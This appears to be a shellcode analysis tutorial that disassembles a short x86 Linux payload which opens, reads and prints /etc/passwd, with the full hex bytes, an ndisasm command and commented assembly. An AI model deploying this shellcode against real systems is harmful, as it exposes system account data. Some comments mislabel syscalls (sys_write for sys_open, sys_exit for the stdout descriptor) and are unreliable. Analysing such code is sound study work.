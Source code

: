 ## Shellcode analysis case 2

----

#### Shellcode - Reads /etc/passwd
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73
\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f
\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03
\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92
\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd
\x80
```

Binary ninja graph:

![graph](https://raw.githubusercontent.com/x00pwn/lowlevel-shellcode-analysis/master/graph_images/case2-graph.png)

` echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -` convert the shellcode to x86 ASM via ndisasm
```
Disassembly-
00000000  31C9              xor ecx,ecx
00000002  F7E1              mul ecx
00000004  B005              mov al,0x5
00000006  51                push ecx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  CD80              int 0x80
0000001A  93                xchg eax,ebx
0000001B  91                xchg eax,ecx
0000001C  B003              mov al,0x3
0000001E  31D2              xor edx,edx
00000020  66BAFF0F          mov dx,0xfff
00000024  42                inc edx
00000025  CD80              int 0x80
00000027  92                xchg eax,edx
00000028  31C0              xor eax,eax
0000002A  B004              mov al,0x4
0000002C  B301              mov bl,0x1
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  CD80              int 0x80
```

Analysis:

As usual, the shellcode starts by clearing out the ecx register, then it moves the linux `sys_write` syscall into the al register. Then the shellcode pushes the string `//etc/passwd` onto the stack in little endian format and split up.

**Clearing the registers** Using XOR ECX, ECX we can have the ECX register cleared by turning it to 0x00000000. Then using mul ecx to `EDX:EAX = EAX * ECX` which will then clear EAX and EDX
```assembly
xor    ecx,ecx        ; clear out ecx as prep
mul    ecx            ;
```
**Open the file** Moving 0x05 into al is using the sys_open linux syscall, sys_open requires 3 arguments, path in EBX, flags on ECX, and MODE on EDX
```assembly
mov    al,0x5         ; linux syscall (sys_open, 0x05)
push   ecx
push   0x64777373     ; push 'dwss' to the stack
push   0x61702f63     ; push 'ap/c' to the stack
push   0x74652f2f     ; push 'te//' to the stack
mov    ebx,esp        ; putting the address and "location" of the file into ebx
int    0x80           ; sys interrupt
```

After opening the target file "/etc/passwd" the contents can be read using the sys_read syscall. in order to use sys_read, you need to specify buffer size and amount of data to read, in this case, the shellcode reads 4095 bytes.

**Reading the file** 
```assembly
xchg   eax,ebx       
xchg   eax,ecx
mov    al,0x3         ; using the (sys_read) sycall
xor    edx,edx
mov    dx,0xfff       ; the size to read from the file (4095 bytes)
inc    edx
int    0x80           ; sys interrupt
```

```assembly
xchg   eax,edx
xor    eax,eax        ; clearing out EAX register
mov    al,0x4         ; (sys_write) syscall
mov    bl,0x1         ; (sys_exit) syscall
int    0x80           ; sys interrupt
```

**Exits without SYS_EXIT**
```assembly
xchg  eax,ebx
int   0x80            ; sys interrupt
```
